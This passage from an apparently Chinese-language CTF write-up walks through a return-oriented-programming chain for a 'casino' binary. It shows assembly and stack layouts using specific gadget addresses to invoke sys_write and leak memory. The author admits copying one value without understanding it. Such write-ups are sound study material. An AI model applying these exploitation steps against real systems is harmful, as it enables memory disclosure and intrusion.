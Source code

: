 接下来要想办法调用syscall的sys_write函数将rsi中的值输出到stdout。

[linux系统调用表(system call table)](https://blog.csdn.net/sinat_26227857/article/details/44244433)文中可以看到read和write函数的源代码，可以发现，两者之间只有rax(用来告诉syscall系统调用号)不同，其余的参数含义相同。于是我们可以构造以下的汇编代码段，以实现将rsi的内容输出：

```
?????			#想办法令rax=1
mov edx,400h	#count
mov rsi,rsp		#buf
mov rdi,rax		#令rax=1,代表stdout
syscall
retn
```

那么此时我们需要的栈结构就应该是

```
-----code段-----
ret
-----stack------
some_address(某条指令可以改变eax的值为1)
...(可能需要增加的内容)
next_address
```

再IDA中使用“alt+t"可以全局查找eax出现的地方，其需要满足：能改变eax值为1，并且有ret指令；满足条件的有下边这个

![eax](H:\CTF-2018\201808\casino\eax.PNG)

其对应的指令段如下

![eaxret](H:\CTF-2018\201808\casino\eaxret.PNG)

此时的栈结构应为：

```
-----code段-----
ret
-----stack------
0x400aa5(and eax,1;pop rbp;retn)
value3(需要赋给rbp的值；这里我是学习别人的代码，他将这里写入的是0x602078，数据段的可读可写的首地址？其实这里还不是很明白)
next_address
```

修改好eax之后，就可以传参调用syscall了，但是我们需要调用的是sys_read的后半部分，而不能全部调用sys_read();即下图。也就是说我们不需要修改rsi和rdi寄存器的值了。这就说明next_address应该为0x400d5b

![syswrite](H:\CTF-2018\201808\casino\syswrite.PNG)

此时的栈结构为：

```
-----code段-----
ret
-----stack------
0x400aa5(and eax,1;pop rbp;retn)
0x602078
0x400d5b(mov rsi,rax;syscall;retn)
```
